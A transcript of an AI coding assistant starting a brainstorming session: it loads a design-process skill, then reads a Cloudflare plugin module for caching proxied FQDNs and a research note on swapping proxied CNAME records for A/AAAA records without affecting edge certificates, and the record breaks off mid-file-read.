

# Session transcript

## User

<local-command-caveat>Caveat: The messages below were generated by the user while running local commands. DO NOT respond to these messages or otherwise consider them in your response unless the user explicitly asks you to.</local-command-caveat>

## User

<command-name>/clear</command-name>
            <command-message>clear</command-message>
            <command-args></command-args>

## User

@development/2026-07-30-platform-domain-util2/PROMPT.md

## Assistant

I'll start with the brainstorming skill, as required before design work.

### ⚙ Tool call: `Skill`

```json
{
  "skill": "superpowers:brainstorming"
}
```

### ↳ Tool result

```
Launching skill: superpowers:brainstorming
```

## User

Base directory for this skill: /home/node/.claude/plugins/cache/claude-plugins-official/superpowers/6.2.0/skills/brainstorming

# Brainstorming Ideas Into Designs

Help turn ideas into fully formed designs and specs through natural collaborative dialogue.

Start by understanding the current project context, then ask questions one at a time to refine the idea. Once you understand what you're building, present the design and get user approval.

<HARD-GATE>
Do NOT invoke any implementation skill, write any code, scaffold any project, or take any implementation action until you have presented a design and the user has approved it. This applies to EVERY project regardless of perceived simplicity.
</HARD-GATE>

## Anti-Pattern: "This Is Too Simple To Need A Design"

Every project goes through this process. A todo list, a single-function utility, a config change — all of them. "Simple" projects are where unexamined assumptions cause the most wasted work. The design can be short (a few sentences for truly simple projects), but you MUST present it and get approval.

## Checklist

You MUST create a task for each of these items and complete them in order:

1. **Explore project context** — check files, docs, recent commits
2. **Offer the visual companion just-in-time** — NOT upfront. The first time a question would genuinely be clearer shown than described, offer it then (its own message); on approval its browser tab opens for you. If no visual question ever arises, never offer it. See the Visual Companion section below.
3. **Ask clarifying questions** — one at a time, understand purpose/constraints/success criteria
4. **Propose 2-3 approaches** — with trade-offs and your recommendation
5. **Present design** — in sections scaled to their complexity, get user approval after each section
6. **Write design doc** — save to `docs/superpowers/specs/YYYY-MM-DD-<topic>-design.md` and commit
7. **Spec self-review** — quick inline check for placeholders, contradictions, ambiguity, scope (see below)
8. **User reviews written spec** — ask user to review the spec file before proceeding
9. **Transition to implementation** — invoke writing-plans skill to create implementation plan

## Process Flow



**The terminal state is invoking writing-plans.** Do NOT invoke frontend-design, mcp-builder, or any other implementation skill. The ONLY skill you invoke after brainstorming is writing-plans.

## The Process

**Understanding the idea:**

- Check out the current project state first (files, docs, recent commits)
- Before asking detailed questions, assess scope: if the request describes multiple independent subsystems (e.g., "build a platform with chat, file storage, billing, and analytics"), flag this immediately. Don't spend questions refining details of a project that needs to be decomposed first.
- If the project is too large for a single spec, help the user decompose into sub-projects: what are the independent pieces, how do they relate, what order should they be built? Then brainstorm the first sub-project through the normal design flow. Each sub-project gets its own spec → plan → implementation cycle.
- For appropriately-scoped projects, ask questions one at a time to refine the idea
- Prefer multiple choice questions when possible, but open-ended is fine too
- Only one question per message - if a topic needs more exploration, break it into multiple questions
- Focus on understanding: purpose, constraints, success criteria

**Exploring approaches:**

- Propose 2-3 different approaches with trade-offs
- Present options conversationally with your recommendation and reasoning
- Lead with your recommended option and explain why
- YAGNI ruthlessly - remove unnecessary features from every approach and design

**Presenting the design:**

- Once you believe you understand what you're building, present the design
- Scale each section to its complexity: a few sentences if straightforward, up to 200-300 words if nuanced
- Ask after each section whether it looks right so far
- Cover: architecture, components, data flow, error handling, testing
- Be ready to go back and clarify if something doesn't make sense

**Design for isolation and clarity:**

- Break the system into smaller units that each have one clear purpose, communicate through well-defined interfaces, and can be understood and tested independently
- For each unit, you should be able to answer: what does it do, how do you use it, and what does it depend on?
- Can someone understand what a unit does without reading its internals? Can you change the internals without breaking consumers? If not, the boundaries need work.
- Smaller, well-bounded units are also easier for you to work with - you reason better about code you can hold in context at once, and your edits are more reliable when files are focused. When a file grows large, that's often a signal that it's doing too much.

**Working in existing codebases:**

- Explore the current structure before proposing changes. Follow existing patterns.
- Where existing code has problems that affect the work (e.g., a file that's grown too large, unclear boundaries, tangled responsibilities), include targeted improvements as part of the design - the way a good developer improves code they're working in.
- Don't propose unrelated refactoring. Stay focused on what serves the current goal.

## After the Design

**Documentation:**

- Write the validated design (spec) to `docs/superpowers/specs/YYYY-MM-DD-<topic>-design.md`
  - (User preferences for spec location override this default)
- Use elements-of-style:writing-clearly-and-concisely skill if available
- Commit the design document to git

**Spec Self-Review:**
After writing the spec document, look at it with fresh eyes:

1. **Placeholder scan:** Any "TBD", "TODO", incomplete sections, or vague requirements? Fix them.
2. **Internal consistency:** Do any sections contradict each other? Does the architecture match the feature descriptions?
3. **Scope check:** Is this focused enough for a single implementation plan, or does it need decomposition?
4. **Ambiguity check:** Could any requirement be interpreted two different ways? If so, pick one and make it explicit.

Fix any issues inline. No need to re-review — just fix and move on.

**User Review Gate:**
After the spec review loop passes, ask the user to review the written spec before proceeding:

> "Spec written and committed to `<path>`. Please review it and let me know if you want to make any changes before we start writing out the implementation plan."

Wait for the user's response. If they request changes, make them and re-run the spec review loop. Only proceed once the user approves.

**Implementation:**

- Invoke the writing-plans skill to create a detailed implementation plan
- Do NOT invoke any other skill. writing-plans is the next step.

## Visual Companion

A browser-based companion for showing mockups, diagrams, and visual options during brainstorming. Available as a tool — not a mode. Accepting the companion means it's available for questions that benefit from visual treatment; it does NOT mean every question goes through the browser.

**Offering the companion (just-in-time):** Do NOT offer it upfront. Wait until a question would genuinely be clearer shown than told — a real mockup / layout / diagram question, not merely a UI *topic*. The first time that happens, offer it then, as its own message:
> "This next part might be easier if I show you — I can put together mockups, diagrams, and comparisons in a browser tab as we go. It's still new and can be token-intensive. Want me to? I'll open it for you."

**This offer MUST be its own message.** Only the offer — no clarifying question, summary, or other content. Wait for the user's response. If they accept, start the server with `--open` so their browser opens to the first screen automatically. If they decline, continue text-only and don't offer again unless they raise it.

**Per-question decision:** Even after the user accepts, decide FOR EACH QUESTION whether to use the browser or the terminal. The test: **would the user understand this better by seeing it than reading it?**

- **Use the browser** for content that IS visual — mockups, wireframes, layout comparisons, architecture diagrams, side-by-side visual designs
- **Use the terminal** for content that is text — requirements questions, conceptual choices, tradeoff lists, A/B/C/D text options, scope decisions

A question about a UI topic is not automatically a visual question. "What does personality mean in this context?" is a conceptual question — use the terminal. "Which wizard layout works better?" is a visual question — use the browser.

If they agree to the companion, read the detailed guide before proceeding:
`skills/brainstorming/visual-companion.md`

### ⚙ Tool call: `Read`

```json
{
  "file_path": "/workspace/plugin/cloudflare/fqdns.py"
}
```

### ↳ Tool result

```
1	
2	import json
3	import os
4	import sys
5	import tempfile
6	import time
7	
8	import cloudflare  # for cloudflare.CloudflareError
9	import rich.progress
10	
11	import script_context as sc
12	
13	# ---------------------------------------------------------------------------------------------
14	# Move the old standalone `get_proxied_fqdns` here, as a Cloudflare-plugin setup hook.
15	#
16	# `fqdns.json` maps every Cloudflare-*proxied* website FQDN to the zone it lives in and its DNS
17	# origins:  { "<fqdn>": { "zone_id": "<uuid>", "origins": [ "<ip-or-cname>", ... ] }, ... }
18	# The per-site loop consumes the KEYS (a membership test: "is this hostname proxied?"), and
19	# check/pantheon_cdn_change consumes the ORIGINS (to find CNAMEs to the legacy Pantheon GCDN --
20	# invisible in public DNS for a proxied FQDN).  zone_id is stored but not read yet.
21	#
22	# The whole flow runs ONCE in a setup hook, before the per-site loop:
23	#   decide whether to refresh -> (maybe) fetch from Cloudflare + write fqdns.json -> load it into
24	#   sc.plugin_context['plugin.cloudflare']['proxied_fqdns'].
25	# ---------------------------------------------------------------------------------------------
26	
27	
28	FQDNS_FILE = "fqdns.json"
29	STALE_SECONDS = 24 * 60 * 60  # 86400 -- a day
30	
31	
32	class CloudflareFqdnsError(Exception):
33	    """A failure while fetching proxied FQDNs from Cloudflare (always fatal)."""
34	
35	
36	def progress_bar() -> rich.progress.Progress:
37	    # Ported from the standalone get_proxied_fqdns.
38	    return rich.progress.Progress(
39	        rich.progress.TextColumn("[progress.description]{task.description}"),
40	        rich.progress.MofNCompleteColumn(),
41	        rich.progress.BarColumn(),
42	        rich.progress.TaskProgressColumn(),
43	        rich.progress.TimeElapsedColumn(),
44	        rich.progress.TimeRemainingColumn(),
45	        console=sc.console,
46	        transient=not sc.options.verbose,
47	    )
48	
49	
50	def decide_fqdns_update(*, exists, age_seconds, multi_site, force, suppress,  # noqa: PLR0913
51	                        traffic_only):
52	    # -- pure decision function, six keyword-only inputs pinned by
53	    # tests/unit/test_fqdns_decision.py (I14b SPEC §2.1 rule 2: signatures pinned by tests
54	    # stay); each name is enumerated in the docstring below and used nowhere else
55	    """Pure decision: should we refresh fqdns.json?  Returns (should_update, reason).  No I/O.
56	
57	    Order matters:
58	      - an explicit --update-cloudflare-fqdns forces a refresh (even in non-consuming runs);
59	      - runs that never consume fqdns (--update / --import-older-metrics / --create-tables) skip
60	        the refresh -- passed in as `traffic_only`;
61	      - a missing file must be fetched (any run that reaches consumption needs it);
62	      - otherwise refresh only a stale file when processing multiple sites and not suppressed.
63	    """
64	    if force:
65	        return True, "--update-cloudflare-fqdns requested"
66	    if traffic_only:
67	        return False, "run does not consume fqdns (--update/--import-older-metrics/--create-tables)"
68	    if not exists:
69	        return True, "fqdns.json does not exist"
70	    if age_seconds > STALE_SECONDS and multi_site and not suppress:
71	        return True, "fqdns.json older than 24h and processing multiple sites"
72	    return False, "fqdns.json present (fresh, single-site, or update suppressed)"
73	
74	
75	def fetch_proxied_fqdns(client) -> tuple:  # noqa: C901 -- the account/zone/DNS-record
76	    # walk this docstring documents, plus the cross-zone-conflict bookkeeping CLAUDE.md
77	    # names as "now consumed" (I14b SPEC §2.1 rule 5, verbatim-complexity noqa)
78	    """Query Cloudflare for every proxied FQDN across every account/zone the credentials can see.
79	
80	    Returns (websites, conflicts) where:
81	      websites  = { "<fqdn>": { "zone_id": "<uuid>", "origins": [ "<content>", ... ] }, ... }
82	      conflicts = { "<fqdn>": [ "<zone_id>", ... ] } for any FQDN proxied in more than one zone
83	                  (the file stores only the first zone_id, so this is surfaced to owners live).
84	    Any Cloudflare API error becomes CloudflareFqdnsError (fatal).  Zero zones is treated as a
85	    (fatal) scope/permission problem; zero proxied FQDNs across present zones is a loud warning
86	    but not fatal (a DNS-only Cloudflare org is legitimate).
87	    """
88	    try:
89	        with sc.console.status('[bold green]Getting Cloudflare accounts and zones ...'):
90	            accounts = list(client.accounts.list())
91	            account_count = len(accounts)
92	            zones = []
93	            for account in accounts:
94	                zones.extend(client.zones.list(account={'id': account.id}))
95	        zone_count = len(zones)
96	    except cloudflare.CloudflareError as e:
97	        raise CloudflareFqdnsError(f'listing accounts/zones failed: {e}') from e
98	
99	    # Deliberate raise placed OUTSIDE the try above so it is never re-wrapped/swallowed.
100	    if zone_count == 0:
101	        raise CloudflareFqdnsError(
102	            f'Cloudflare returned {account_count} account(s) but 0 zones -- '
103	            'the credentials likely lack DNS:Read for the zones.'
104	        )
105	
106	    websites = {}
107	    conflicts = {}
108	    blank = ' '
109	    try:
110	        with progress_bar() as progress:
111	            zone_task = progress.add_task(f'Checking zone:  {blank:32s}', total=zone_count)
112	            for zone in zones:
113	                progress.update(zone_task, description=f'Checking zone:  {zone.name:32s}', advance=1)
114	                for record in client.dns.records.list(zone_id=zone.id, proxied=True):
115	                    name = record.name
116	                    content = record.content
117	                    if name not in websites:
118	                        websites[name] = {'zone_id': zone.id, 'origins': [content]}
119	                    else:
120	                        websites[name]['origins'].append(content)
121	                        if websites[name]['zone_id'] != zone.id:
122	                            zone_ids = conflicts.setdefault(name, [websites[name]['zone_id']])
123	                            if zone.id not in zone_ids:
124	                                zone_ids.append(zone.id)
125	                            sc.console.print(
126	                                f":exclamation: [bold red] ATTENTION: {name} appears in more than "
127	                                f"one Cloudflare zone ({websites[name]['zone_id']} and {zone.id}); "
128	                                "keeping the first zone_id"
129	                            )
130	    except cloudflare.CloudflareError as e:
131	        raise CloudflareFqdnsError(f'listing DNS records failed: {e}') from e
132	
133	    fqdn_count = len(websites)
134	    sc.console.print(
135	        f"[bold green]Fetched {fqdn_count} proxied FQDNs across {zone_count} zones "
136	        f"in {account_count} account(s)."
137	    )
138	    if fqdn_count == 0:
139	        sc.console.print(
140	            ":exclamation: [bold red] ATTENTION: Cloudflare returned zero proxied FQDNs across "
141	            f"{zone_count} zones -- every custom domain will be reported as not proxied."
142	        )
143	    return websites, conflicts
144	
145	
146	def _load_existing(path) -> dict:
147	    """Load an existing fqdns.json.  Missing -> {} (only reachable on the traffic-only skip).
148	    Invalid JSON -> fatal.  Tolerates both the old array-value and new object-value formats
149	    (the program reads only the keys)."""
150	    try:
151	        with open(path, "r") as f:  # noqa: PTH123, UP015 -- fqdns.json read/write is a
152	            # documented behavior surface (CLAUDE.md "atomic write"; I14b SPEC §2.1 rule 1);
153	            # this line's FileNotFoundError/JSONDecodeError handling below is this
154	            # atomic-cache design's control flow, so it is not touched mechanically
155	            return json.load(f)
156	    except FileNotFoundError:
157	        return {}
158	    except json.JSONDecodeError:
159	        sys.exit(f"ERROR: {path} is not valid JSON; run --update-cloudflare-fqdns to regenerate it.")
160	
161	
162	def write_fqdns_atomic(path, data) -> None:
163	    """Write data as JSON to a temp file in the same directory, then os.replace() it onto `path`.
164	
165	    Atomic: an interrupted write never leaves a half-written or truncated fqdns.json.  Replacing
166	    onto a symlink path replaces the symlink itself with the new plain file.
167	    """
168	    directory = os.path.dirname(os.path.abspath(path)) or "."  # noqa: PTH120, PTH100 --
169	    # feeds tempfile.mkstemp's dir=, load-bearing for the atomic-rename-needs-same-filesystem
170	    # guarantee this docstring documents; Path.resolve() follows symlinks where
171	    # os.path.abspath() does not, a real semantic difference for exactly the
172	    # symlink-replacement case this function exists for (CLAUDE.md "atomic write";
173	    # I14b SPEC §2.1 rule 1 -- behavior surface, noqa instead of restructure)
174	    fd, tmp = tempfile.mkstemp(dir=directory, prefix=".fqdns-", suffix=".tmp")
175	    try:
176	        with os.fdopen(fd, "w") as f:
177	            json.dump(data, f, indent=4, sort_keys=True)
178	            f.write("\n")
179	        # mkstemp creates the temp file mode 0600, which os.replace would preserve; restore a
180	        # normal umask-based mode (typically 0644) so other readers keep the access they had on
181	        # the previous fqdns.json.
182	        current_umask = os.umask(0)
183	        os.umask(current_umask)
184	        os.chmod(tmp, 0o666 & ~current_umask)  # noqa: PTH101 -- behavior surface (rule 1),
185	        # see the PTH120/PTH100 note above
186	        os.replace(tmp, path)  # noqa: PTH105 -- THE atomic-replace call this function's
187	        # docstring documents ("then os.replace() it onto `path`"); behavior surface (rule 1)
188	    except BaseException:  # incl. KeyboardInterrupt: clean up the temp file, leave fqdns.json intact
189	        try:  # noqa: SIM105 -- behavior surface (rule 1); not restructuring the
190	              # BaseException cleanup handler's exception flow
191	            os.unlink(tmp)  # noqa: PTH108 -- cleanup path of the same behavior surface (rule 1)
192	        except FileNotFoundError:
193	            pass
194	        raise
195	
196	
197	def update_and_load_proxied_fqdns() -> None:
198	    """setup hook: refresh fqdns.json from Cloudflare when appropriate, then load it into
199	    sc.plugin_context['plugin.cloudflare']['proxied_fqdns'] for the per-site loop to consume."""
200	    exists = os.path.exists(FQDNS_FILE)  # noqa: PTH110 -- feeds decide_fqdns_update's
201	    # refresh-decision gate; behavior surface (I14b SPEC §2.1 rule 1)
202	    age_seconds = (time.time() - os.path.getmtime(FQDNS_FILE)) if exists else 0  # noqa: PTH204
203	    # -- same refresh-decision gate; behavior surface (rule 1)
204	    multi_site = sc.options.all or len(sc.options.sites) > 1
205	    force = sc.options.update_cloudflare_fqdns
206	    suppress = sc.options.no_update_cloudflare_fqdns
207	    # Run modes that never reach the per-site fqdns consumption: traffic-only refreshes
208	    # (--update / --import-older-metrics) AND schema creation (--create-tables, which exits before
209	    # the per-site loop).  Setup hooks run before all of these, so without this skip a bare
210	    # --create-tables would trigger a full live Cloudflare crawl (and a Cloudflare error would
211	    # abort table creation).  `force` still overrides, so --update-cloudflare-fqdns works anywhere.
212	    does_not_consume = (
213	        sc.options.update or sc.options.import_older_metrics or sc.options.create_tables
214	    )
215	
216	    should_update, reason = decide_fqdns_update(
217	        exists=exists,
218	        age_seconds=age_seconds,
219	        multi_site=multi_site,
220	        force=force,
221	        suppress=suppress,
222	        traffic_only=does_not_consume,
223	    )
224	    sc.debug(f"Cloudflare fqdns update decision: {should_update} ({reason})")
225	
226	    conflicts = {}
227	    if should_update:
228	        sc.console.print(f"[bold green]Updating {FQDNS_FILE} from Cloudflare ({reason}) ...")
229	        client = sc.plugin_context["plugin.cloudflare"]["get_client"]()  # the one shared instance
230	        try:
231	            proxied, conflicts = fetch_proxied_fqdns(client)
232	        except CloudflareFqdnsError as e:
233	            sys.exit(f"ERROR: could not fetch proxied FQDNs from Cloudflare: {e}")
234	        write_fqdns_atomic(FQDNS_FILE, proxied)
235	        sc.console.print(f"[bold green]Wrote {len(proxied)} proxied FQDNs to {FQDNS_FILE}.")
236	    else:
237	        # Only warn about staleness when the file will actually be consumed (not a
238	        # traffic-only / create-tables run, which never reads it).
239	        if not does_not_consume and exists and age_seconds > STALE_SECONDS:
240	            sc.console.print(
241	                f":exclamation: [bold red] ATTENTION: {FQDNS_FILE} is more than a day old; "
242	                "Cloudflare-side CNAME checks may be answering from stale data -- run "
243	                "--update-cloudflare-fqdns for current data"
244	            )
245	        proxied = _load_existing(FQDNS_FILE)
246	
247	    sc.plugin_context["plugin.cloudflare"]["proxied_fqdns"] = proxied
248	    # Cross-zone conflicts are only known on a fresh fetch (the file stores a single zone_id per
249	    # FQDN); {} on a load-only run.  Consumed per-site to warn owners.
250	    sc.plugin_context["plugin.cloudflare"]["fqdn_zone_conflicts"] = conflicts
251
```

### ⚙ Tool call: `Bash`

```json
{
  "command": "ls -la /workspace/development/2026-07-30-platform-domain-util2/ /workspace/plugin/cloudflare/ /workspace/development/2026-07-28-platform-domain-util/ 2>&1 | head -60",
  "description": "List relevant directories"
}
```

### ↳ Tool result

```
/workspace/development/2026-07-28-platform-domain-util/:
total 3148
drwxr-xr-x 15 node node     480 Jul 30 08:12 .
drwxr-xr-x 40 node node    1280 Jul 30 08:03 ..
-rw-r--r--  1 node node   46779 Jul 28 21:51 ACCEPTANCE.md
-rw-r--r--  1 node node    5856 Jul 28 22:45 CLOSING-AUDIT.md
-rw-r--r--  1 node node  109588 Jul 28 18:08 PLAN.md
-rw-r--r--  1 node node    2155 Jul 28 07:34 PROMPT.md
-rw-r--r--  1 node node   75272 Jul 30 08:12 SPEC.md
-rw-r--r--  1 node node     130 Jul 28 22:57 analytics.md
-rw-r--r--  1 node node   17432 Jul 28 13:04 bug-report.txt
-rw-r--r--  1 node node   30869 Jul 28 11:46 pantheon-api-pagination-bug-report.txt
-rwxr-xr-x  1 node node   13217 Jul 28 11:44 reproduce-pagination-bug.sh
-rw-r--r--  1 node node    3659 Jul 28 22:57 statistics.md
-rw-r--r--  1 node node 1444277 Jul 28 22:57 transcript.md
-rw-r--r--  1 node node 1444277 Jul 28 22:57 transcript.raw.md
-rw-r--r--  1 node node    2474 Jul 28 22:57 usage.raw.txt

/workspace/development/2026-07-30-platform-domain-util2/:
total 16
drwxr-xr-x  4 node node   128 Jul 30 13:12 .
drwxr-xr-x 40 node node  1280 Jul 30 08:03 ..
-rw-r--r--  1 node node  1768 Jul 30 13:12 PROMPT.md
-rw-r--r--  1 node node 10314 Jul 30 09:17 research.md

/workspace/plugin/cloudflare/:
total 28
drwxr-xr-x 7 node node   224 Jul 23 20:18 .
drwxr-xr-x 8 node node   256 Jul 23 21:50 ..
-rw-r--r-- 1 node node  1354 Jul 23 20:12 __init__.py
drwxr-xr-x 8 node node   256 Jul 23 20:19 __pycache__
-rw-r--r-- 1 node node  2035 Jul 23 20:12 client.py
-rw-r--r-- 1 node node 12864 Jul 23 20:18 fqdns.py
-rw-r--r-- 1 node node  1634 Jul 23 20:17 ips.py
```

### ⚙ Tool call: `Read`

```json
{
  "file_path": "/workspace/development/2026-07-30-platform-domain-util2/research.md"
}
```

### ↳ Tool result

```
1	# Research findings: swapping a proxied CNAME for proxied A/AAAA records without disturbing the Universal edge certificate
2	
3	## Context
4	
5	Part of the Pantheon CDN migration work. Custom domains such as
6	`example1.cdn-dev.it.umich.edu` currently sit in Cloudflare DNS as **proxied CNAME**
7	records pointing at `live-umich-example1.pantheonsite.io`. Pantheon's replacement
8	records are A/AAAA (`23.185.0.4`, `2620:12a:8001::4`, `2620:12a:8000::4`), so the
9	rewrite must delete one CNAME and create three A/AAAA records at the same name — and
10	later reverse that. Each such hostname has a Cloudflare **Universal** edge certificate
11	whose `commonName` is the hostname itself. The question is whether the record swap
12	invalidates that certificate or forces re-issuance.
13	
14	**No changes were made to any Cloudflare account.** This is research only.
15	
16	## Answer
17	
18	**No.** In both directions, provided two conditions hold:
19	
20	1. the replacement records are **Proxied** (orange cloud), and
21	2. the **hostname string does not change**.
22	
23	Nothing in Cloudflare's DNS-record API path deletes, revokes, or re-validates an edge
24	certificate. A Universal certificate is bound to a **hostname**, not to a DNS-record
25	object, and certificate selection at the edge is driven by SNI/hostname plus proxy
26	status — never by record type. `A`, `AAAA`, and `CNAME` are all proxiable types and are
27	interchangeable as far as TLS termination is concerned.
28	
29	### Why the certificate is unaffected
30	
31	- Certificate selection is hostname/SNI-based: exact SNI match first, then wildcard,
32	  ranked by certificate type and recency. Record type is not an input.
33	  → <https://developers.cloudflare.com/ssl/reference/certificate-and-hostname-priority/>
34	- The only DNS-side precondition is proxy status: *"Cloudflare can only serve an
35	  SSL/TLS certificate for a DNS record when you set the record's proxy status to
36	  **Proxied**."*
37	  → <https://developers.cloudflare.com/ssl/edge-certificates/universal-ssl/limitations/>
38	- The documented events that **do** remove a Universal certificate are all
39	  zone-/setting-level, not record-level:
40	  - disabling Universal SSL (`PATCH /zones/{zone_id}/ssl/universal/settings`)
41	  - converting the zone setup — *"If you are using Universal SSL, converting to a CNAME
42	    setup will delete your existing Universal SSL certificates."*
43	    → <https://developers.cloudflare.com/dns/zone-setups/conversions/convert-full-to-partial/>
44	  - the certificate-pack `DELETE` endpoint is scoped to **Advanced** Certificate Manager
45	    packs ("Delete Advanced Certificate Manager Certificate Pack"), so it cannot be used
46	    to drop a Universal pack.
47	    → <https://developers.cloudflare.com/api/resources/ssl/subresources/certificate_packs/methods/delete/>
48	- A certificate is a signed artifact with a fixed validity window (Universal = 90 days,
49	  auto-renewal starts 30 days out). DNS edits neither shorten it nor trigger reissuance.
50	  → <https://developers.cloudflare.com/ssl/reference/certificate-validity-periods/>
51	
52	### Which certificate covers this hostname
53	
54	The certificate's `commonName` being the full `example1.cdn-dev.it.umich.edu` indicates
55	a **per-hostname Universal certificate**, which is what a **partial (CNAME setup)** zone
56	produces:
57	
58	- *"On Partial zones, Universal SSL is provisioned per proxied hostname regardless of
59	  subdomain depth."*
60	  → <https://developers.cloudflare.com/ssl/edge-certificates/advanced-certificate-manager/>
61	- *"On a CNAME setup zone, each subdomain (regardless of level) has its own Universal
62	  SSL certificate…"*
63	  → <https://developers.cloudflare.com/ssl/edge-certificates/universal-ssl/limitations/>
64	- Partial-setup provisioning trigger: *"Provisioned once the DNS record is proxied
65	  through Cloudflare."*
66	  → <https://developers.cloudflare.com/ssl/edge-certificates/universal-ssl/enable-universal-ssl/>
67	
68	Consequence for a partial zone: the hostname's continuous **proxied** state is what
69	keeps automatic DCV (and therefore automatic renewal) working — *"When every hostname on
70	a non-wildcard certificate is proxying traffic through Cloudflare and the DCV method is
71	HTTP, Cloudflare can automatically complete DCV on your behalf."*
72	→ <https://developers.cloudflare.com/ssl/edge-certificates/changing-dcv-method/>
73	A proxied A/AAAA record satisfies this exactly as a proxied CNAME does.
74	
75	(If the zone were instead a *full* setup with `cdn-dev.it.umich.edu` as the apex, the
76	hostname would be covered by the zone's `*.cdn-dev.it.umich.edu` Universal certificate
77	and the conclusion is the same — but the `commonName` would be the apex, not the
78	hostname.)
79	
80	## Constraint that forces the delete-then-create shape
81	
82	A CNAME cannot coexist with other types at the same name — *"queries for other record
83	types on the same name are not supported."*
84	→ <https://developers.cloudflare.com/dns/manage-dns-records/reference/dns-record-types/>
85	
86	So the CNAME must be gone before the A/AAAA records exist (and vice versa on the
87	reverse). There is no in-place "change the type" operation.
88	
89	## Recommended mechanics: one batch call
90	
91	Use the batch endpoint rather than separate DELETE + POST calls. Its documented
92	execution order is **Deletes → Patches → Puts → Posts**, all inside a single database
93	transaction, so the name is never left without a record in Cloudflare's control plane:
94	
95	- <https://developers.cloudflare.com/dns/manage-dns-records/how-to/batch-record-changes/>
96	- <https://developers.cloudflare.com/api/resources/dns/subresources/records/methods/batch/>
97	  (`POST /zones/{zone_id}/dns_records/batch`)
98	
99	Caveat to respect, quoted from that endpoint's own description: *"Although Cloudflare
100	will execute the batched operations in a single database transaction, Cloudflare's
101	distributed KV store must treat each record change as a single key-value pair. This
102	means that the propagation of changes is not atomic."* Propagation is sub-second in
103	practice, and the edge certificate is unaffected regardless — the only exposure is a
104	brief authoritative-DNS window, not a TLS window.
105	
106	Forward direction (scenario 1) — shape only, not to be run yet:
107	
108	```jsonc
109	{
110	  "deletes": [ { "id": "<cname_record_id>" } ],
111	  "posts": [
112	    { "type": "A",    "name": "example1.cdn-dev.it.umich.edu", "content": "23.185.0.4",         "proxied": true, "ttl": 1 },
113	    { "type": "AAAA", "name": "example1.cdn-dev.it.umich.edu", "content": "2620:12a:8000::4",   "proxied": true, "ttl": 1 },
114	    { "type": "AAAA", "name": "example1.cdn-dev.it.umich.edu", "content": "2620:12a:8001::4",   "proxied": true, "ttl": 1 }
115	  ]
116	}
117	```
118	
119	Reverse direction (scenario 2): the three A/AAAA ids in `deletes`, one proxied CNAME to
120	`live-umich-example1.pantheonsite.io` in `posts`.
121	
122	`proxied: true` is the load-bearing field in both directions. A record created
123	DNS-only would take the hostname out of certificate service (and, on a partial zone,
124	out of automatic DCV).
125	
126	## Verification (read-only, one throwaway hostname first)
127	
128	1. Before: `GET /zones/{zone_id}/ssl/certificate_packs?status=all` — record the pack
129	   `id`, `status`, `hosts`, and `primary_certificate` for the hostname.
130	   → <https://developers.cloudflare.com/api/resources/ssl/subresources/certificate_packs/methods/list/>
131	2. Before: capture the served leaf certificate's serial and validity —
132	   `openssl s_client -connect example1.cdn-dev.it.umich.edu:443 -servername example1.cdn-dev.it.umich.edu </dev/null | openssl x509 -noout -serial -dates -subject`
133	3. Run the batch swap on that one hostname.
134	4. After (immediately, then again at ~15 min): repeat steps 1 and 2 and diff. Expect an
135	   identical pack id, `status: active`, and an identical certificate serial — i.e. the
136	   same certificate, not a re-issued one.
137	5. Confirm the DNS answer changed as intended (`dig +short A/AAAA` against Cloudflare's
138	   authoritative NS for the zone, or the record list API) and that HTTPS still serves.
139	6. Reverse the swap on the same hostname and repeat, to prove scenario 2 symmetrically.
140	
141	## What would break it
142	
143	- Creating the replacement records **DNS-only** instead of proxied.
144	- Any change to the hostname itself (a different label is a different certificate).
145	- Disabling Universal SSL, or converting the zone between full and partial setup.
146	- Leaving the hostname unproxied long enough on a partial zone that automatic HTTP DCV
147	  cannot complete during a renewal window (30 days before expiry) — not a risk for a
148	  swap measured in seconds.
149	
150	## Documented silence worth stating plainly
151	
152	Cloudflare's docs do not contain an explicit sentence of the form "editing or deleting a
153	DNS record does not affect your edge certificate." The conclusion above is built from
154	the documented mechanism (hostname/SNI-based selection + proxy-status precondition) and
155	from the fact that every documented certificate-removal path is zone- or
156	setting-scoped. Step 4 of the verification section is what turns that into a measured
157	fact for this specific zone; do it on one disposable hostname before touching anything
158	that matters.
159	
160	## Sources
161	
162	- <https://developers.cloudflare.com/ssl/edge-certificates/universal-ssl/>
163	- <https://developers.cloudflare.com/ssl/edge-certificates/universal-ssl/limitations/>
164	- <https://developers.cloudflare.com/ssl/edge-certificates/universal-ssl/enable-universal-ssl/>
165	- <https://developers.cloudflare.com/ssl/edge-certificates/advanced-certificate-manager/>
166	- <https://developers.cloudflare.com/ssl/edge-certificates/changing-dcv-method/>
167	- <https://developers.cloudflare.com/ssl/reference/certificate-and-hostname-priority/>
168	- <https://developers.cloudflare.com/ssl/reference/certificate-validity-periods/>
169	- <https://developers.cloudflare.com/ssl/reference/certificate-rotation/>
170	- <https://developers.cloudflare.com/dns/zone-setups/partial-setup/setup/>
171	- <https://developers.cloudflare.com/dns/zone-setups/conversions/convert-full-to-partial/>
172	- <https://developers.cloudflare.com/dns/manage-dns-records/reference/dns-record-types/>
173	- <https://developers.cloudflare.com/dns/manage-dns-records/how-to/batch-record-changes/>
174	- <https://developers.cloudflare.com/api/resources/dns/subresources/records/methods/batch/>
175	- <https://developers.cloudflare.com/api/resources/ssl/subresources/certificate_packs/methods/list/>
176	- <https://developers.cloudflare.com/api/resources/ssl/subresources/certificate_packs/methods/delete/>
177
```

### ⚙ Tool call: `Read`

```json
{
  "file_path": "/workspace/plugin/cloudflare/client.py"
}
```

### ↳ Tool result

```
1	
2	import sys
3	
4	from cloudflare import Cloudflare
5	
6	import script_context as sc
7	
